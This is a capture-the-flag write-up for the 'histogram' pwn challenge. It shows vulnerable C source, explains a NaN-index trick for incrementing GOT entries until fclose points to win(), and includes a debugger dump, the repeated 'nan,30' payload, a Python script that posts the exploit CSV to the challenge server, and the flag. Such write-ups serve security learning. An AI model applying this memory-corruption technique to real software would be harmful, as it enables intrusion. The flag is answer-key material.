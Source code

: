 # histogram [pwn/200]
```c
int read_data(FILE *fp) {
  /* Read data */
  double weight, height;
  int n = fscanf(fp, "%lf,%lf", &weight, &height);
  ...
  /* Validate input */
  if (weight < 1.0 || weight >= WEIGHT_MAX) fatal("Invalid weight");
  if (height < 1.0 || height >= HEIGHT_MAX) fatal("Invalid height");

  /* Store to map */
  short i, j;
  i = (short)ceil(weight / WEIGHT_STRIDE) - 1;
  j = (short)ceil(height / HEIGHT_STRIDE) - 1;

  map[i][j]++;
  wsum[i]++;
  hsum[j]++;
}
```
The important observation here is that `scanf` accepts `nan` for floats, and that `(short)ceil(nan/STRIDE)-1` evaluates to -1.

`map[-1][j]` can be used to modify the GOT table by increments. GOT functions that have _yet to be called_ will point to PLT functions, i.e. somewhere at `0x4010*`. `"nan,30\n"*520` can be used to increment the `fclose` pointer until it points to `win()`:
```python
gef➤  telescope 0x404000
0x0000000000404000│+0x0000: 0x0000000000403e10  →  0x0000000000000001
0x0000000000404008│+0x0008: 0x00007ffff7ffe190  →  0x0000000000000000
0x0000000000404010│+0x0010: 0x00007ffff7fe7bb0  →   endbr64
0x0000000000404018│+0x0018: 0x00007ffff7cfa400  →  <putchar+0> endbr64
0x0000000000404020│+0x0020: 0x00007ffff7cd7320  →  <__isoc99_fscanf+0> endbr64
0x0000000000404028│+0x0028: 0x0000000000401050  →   endbr64
0x0000000000404030│+0x0030: 0x0000000000401268  →  <win+0> endbr64
0x0000000000404038│+0x0038: 0x0000000000401070  →   endbr64
0x0000000000404040│+0x0040: 0x00007ffff7cd5e10  →  <printf+0> endbr64
0x0000000000404048│+0x0048: 0x00007ffff7cf6a90  →  <fopen64+0> endbr64
```
The web interface for this challenge is horribly broken, so I used Python's `requests` to send the bugged csv:
```python
from requests import post
with open('exploit.csv', 'rb') as f: r=post('https://histogram.chal.acsc.asia/api/histogram', files={'csv': f}, verify=False)
print(r.content)
```
`ACSC{NaN_demo_iiyo}`
